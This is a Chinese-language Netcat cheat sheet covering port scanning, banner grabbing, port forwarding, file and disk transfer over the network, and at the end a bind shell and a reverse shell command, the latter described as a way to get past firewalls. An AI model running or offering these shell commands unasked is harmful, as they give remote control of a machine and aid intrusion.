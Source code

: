 Netcat 备忘清单
===

该备忘单提供了在 Linux 和 Unix 上使用 Netcat 的各种方法。

入门
------
<!--rehype:body-class=cols-5-->

### 用法
<!--rehype:wrap-class=col-span-2-->

连接到位于任何地方的主机

```shell
$ nc [options] [host] [port]
```

监听传入连接

```shell 
$ nc -lp port [host] [port]
```

### 选项示例
<!--rehype:wrap-class=col-span-3 row-span-2-->


选项 | 示例 | 说明 
:- | :- | :-
`-h`   | nc -h                      | 帮助
`-z`   | nc -z 192.168.1.9 1-100    | 端口扫描主机或 `IP` 地址
`-v`   | nc -zv 192.168.1.9 1-100   | 提供详细输出
`-n`   | nc -zn 192.168.1.9 1-100   | 通过禁用 `DNS` 解析进行快速扫描
`-l`   | nc -lp 8000                | `TCP` 侦听模式 _(用于入站连接)_
`-w`   | nc -w 180 192.168.1.9 8000 | 定义超时值
`-k`   | nc -kl 8000                | 断线后继续收听
`-u`   | nc -u 192.168.1.9 8000     | 使用 `UDP` 而不是 `TCP`
`-q`   | nc -q 1 192.168.1.9 8000   | 客户在 `EOF` 后熬夜
`-4`   | nc -4 -l 8000              | 仅限 `IPv4`
`-6`   | nc -6 -l 8000              | 仅限 `IPv6`


### 聊天客户端-服务器
<!--rehype:wrap-class=col-span-2-->

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000
```

Netcat 示例
--------

### Banner 抓取

```shell
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```

或者

```shell
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### 端口扫描

扫描 `21` 到 `25` 之间的端口

```shell
$ nc -zvn 192.168.1.1 21-25
```

扫描端口 `22`、`3306` 和 `8080`

```shell
$ nc -zvn 192.168.1.1 22 3306 8080
```

### 代理和端口转发

```shell
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```

或者

```shell
$ nc -l 8001 | nc 127.0.0.1 8000
```

创建从一个本地端口到另一个本地端口的隧道

### 下载文件

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 < file.txt
```

客户端 Client

```shell
$ nc -nv 192.168.1.9 8000 > file.txt
```

假设您想将文件 `file.txt` 从服务器 A 传输到客户端 B。

### 上传文件

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 > file.txt
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 < file.txt
```

假设您想将文件 `file.txt` 从客户端 `B` 传输到服务器 `A`

### 目录传输

服务器 Server (192.168.1.9)

```shell
$ tar -cvf – dir_name | nc -l 8000
```

客户端 Client

```shell
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

假设您想通过网络将目录从 `A` 传输到 `B`

### 加密传输
<!--rehype:wrap-class=col-span-2-->

服务器 Server (192.168.1.9)

```shell
$ nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt
```

客户端 Client

```shell
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

在通过网络传输之前加密数据

### 克隆

服务器 Server (192.168.1.9)

```shell
$ dd if=/dev/sda | nc -l 8000
```

客户端 Client

```shell
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

克隆 linux PC 非常简单。假设你的系统盘是 /dev/sda

### 视频流

服务器 Server (192.168.1.9)

```shell
$ cat video.avi | nc -l 8000
```

客户端 Client

```shell {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

使用 netcat 流式传输视频

### 远程 shell

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 -e /bin/bash
```

客户端 Client

```shell
$ nc 192.168.1.9 8000
```

我们已经使用 `telnet` 和 `ssh` 使用远程 `Shell`，但是如果它们没有安装并且我们没有安装它们的权限，那么我们也可以使用 `netcat` 创建远程 `shell`

### 逆转 shell

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

反向 `shell` 通常用于绕过防火墙限制，例如阻止入站连接